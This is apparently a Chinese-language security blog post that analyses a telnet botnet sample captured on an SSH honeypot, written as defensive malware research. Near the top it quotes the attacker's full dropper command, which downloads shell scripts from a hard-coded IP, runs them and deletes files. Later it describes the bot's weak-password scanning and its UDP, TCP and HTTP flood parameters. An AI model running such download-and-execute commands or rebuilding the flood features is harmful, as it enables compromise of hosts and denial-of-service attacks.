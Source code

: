 ```yaml
---
layout: post
title: "MalwareMustDie Gucci样本分析"
---
```


# 0x00 背景

在ssh蜜罐上捕获到恶意样本，执行的命令如下：

```
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://212.47.239.249/justyzoat.sh; chmod 777 justyzoat.sh; sh justyzoat.sh; tftp 212.47.239.249 -c get tutftp1.sh; chmod 777 tutftp1.sh; sh tutftp1.sh; tftp -r tutftp2.sh -g 212.47.239.249; chmod 777 tutftp2.sh; sh tutftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 212.47.239.249 tuftp1.sh tuftp1.sh; sh tuftp1.sh; rm -rf justyzoat.sh tutftp1.sh tutftp2.sh tuftp1.sh; rm -rf *
```

<!-- more -->

后续分析过程中只能下载该ip的justyzoat.sh：

![][1]

从ip下载不同架构上的二进制恶意样本，实现的功能都是telnet botnet的被控端，等待接收主控端ip的指令并执行。虽然该ip地址现已无法连接，并且主控端的ip被硬编码在二进制文件中，但是在[psbdmp.ws](http://psbdmp.ws/KPgFrxAw)上发现了疑似攻击者用来扫描ssh弱口令并执行命令的脚本，所以只要攻击者还会有所行动，ssh蜜罐还是可以捕获到的。

这个wget样本是ELF32文件，接下来会对该样本进行静态分析，并使用iptables对其控制调试。在分析完该样本后，我更愿意把它叫做gucci样本。

# 0x01 静态分析功能

样本是静态链接，又没strip，所以IDA反汇编看起来很轻松。

![][2]

## 接收指令部分

1. 每5秒调用initConnection函数，去主动连接主控端ip 212.47.239.249的23端口：

    ![][3]

2. recvLine函数接收指令后，指令需要满足"`!XXX cmd arg1 arg2 arg3 …`"的格式才能传递给processCmd函数执行对应功能。
3. 在判断cmd时稍微混淆了一下，本质还是cmp后进入对应逻辑：

    ![][4]

## HTP指令

1. HTP指令可接收2个参数，参数2（默认值为500）只要大于0就会调用htp(100,arg1)函数，来扫描公网ip 23端口的弱口令，并report给主控端。
2. htp函数的100用来设置扫描过程中timeout的微秒值，函数内部会调用getdtablesize函数和arg1比较，取较大值作为扫描的并发数。

    ![][5]

3. 扫描过程中每个文件描述符所用的结构体如下：

    ![][6]

4. 在爆破弱口令过程中，判断是否符合条件的字符串表如下：

    ![][7]

    htp函数中先是并发去连接公网ip的23端口，然后接收消息查看是否包含advances中的字符串，接着爆破弱口令，传递完账号密码后先判断是否有advances2字符串，然后判断是否有fails字符串，最后再判断是否有successes字符串。所以响应中有”#”时才会被认定为爆破成功。

5. 爆破成功后默认会发送"`REPORT ip:username:password`"至主控端sock。最后会发送相同的命令使主机执行justyzoat.sh。

    ![][8]

## UDP指令

1. UDP指令可接收6个参数，可对指定ip进行UDP flood。
2. 参数1为要攻击的ip地址，可为多个ip地址使用"`,`"分割。
3. 参数2为要攻击的端口，如果为0则随机生成目的端口。
4. 参数3为攻击持续的时间。
5. 参数4决定是否伪造源ip地址，不可大于32，如果为32则不伪造源ip地址，否则会被传递给getRandomIP函数。
6. 参数5为udp数据包中data的长度，不可大于65500，会被传递给makeRandomStr函数生成随机字符串。
7. 参数6为每一次攻击sendto数据包的次数。

![][9]

## TCP指令

1. TCP指令可接收7个参数，可对指定ip进行TCP flood。
2. 参数1,2,3的功能和UDP指令相同，参数4也不可大于32，但是默认会伪造源ip地址。
3. 参数5指定TCP数据包的标志位，有"`all,syn,rst,fin,ack,psh,urg`"这7种，可以使用"`,`"组合。
4. 参数6,7则与UDP指令的参数5,6功能相同。

## HTTP指令

1. HTTP指令需要接收6个参数，可对指定的host进行HTTP flood。
2. 参数1指定HTTP method，参数2指定host，参数3指定port，参数4指定URL，参数5指定攻击持续的时间，参数6指定fork并发的数量。

![][10]

## STD指令

1. STD指令需要接收3个参数，可发送带有69字节data的UDP数据包。
2. 参数1为要发送的hostname，多个可以用"`,`"分割，参数2指定网络字节序的port，参数3指定持续发包的时间。

![][11]

## DIE指令

1. DIE指令是直接退出，结束被控端。

# 0x02 动态调试时使用iptables

在主动连接过程中，因为是直接tcp连接硬编码的主控端ip地址，所以使用iptables做一下DNAT，也方便在本地控制调试被控端：

{% highlight bash %}
sudo iptables -t nat -A OUTPUT -d 212.47.239.249 -j DNAT --to-destination 127.0.0.1
{% endhighlight %}

在调试HTP指令时，为了不让我们的主机去扫描公网的23端口，还是借用iptables再做一次DNAT：

{% highlight bash %}
sudo iptables -t nat -A OUTPUT -p tcp --dport 23 -j DNAT --to-destination 127.0.0.2
{% endhighlight %}

所以在127.0.0.2我们可以监听端口，伪造一个可以登录的服务，可以记录到被控端向主控端上报爆破成功信息：

![][12]

但是其并发数一次性太高，索性gdb attach子进程，在getRandomPublicIP函数处下断点，并且patch原程序增大timeout等待时间（iptables处理耗时），这样也好查看流量，最终在伪造的23端口服务端可以看到其接受的消息：

![][13]

# 0x03 其他

1. 在HTTP flood中host的设定是没有加上端口的，在某些情况下会有点问题。
2. 可以使用nc连接主控端的23端口，实现一个简单的下发指令监控。

[1]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn2qyvjibj20xz0710u8.jpg
[2]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn2qzoiv8j20oi0113yk.jpg
[3]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn2r07sefj20ke029a9y.jpg
[4]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn2r1032lj20b30blmxa.jpg
[5]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn2r21bq9j20fx01h742.jpg
[6]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn2r2qk68j20cc07fglo.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn2r3woj7j20hz0f8q3p.jpg
[8]: https://wx3.sinaimg.cn/large/ee2fecafly1fnn2r5nx6tj20sp083t92.jpg
[9]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn2r6nz4oj20g20693yk.jpg
[10]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn2r7g0xlj20ql07nwel.jpg
[11]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn2r8hp0ij20jo09p74f.jpg
[12]: https://wx3.sinaimg.cn/large/ee2fecafly1fnn2r9t81uj20yi07ldh8.jpg
[13]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn2rbxdpwj20wd071jt3.jpg
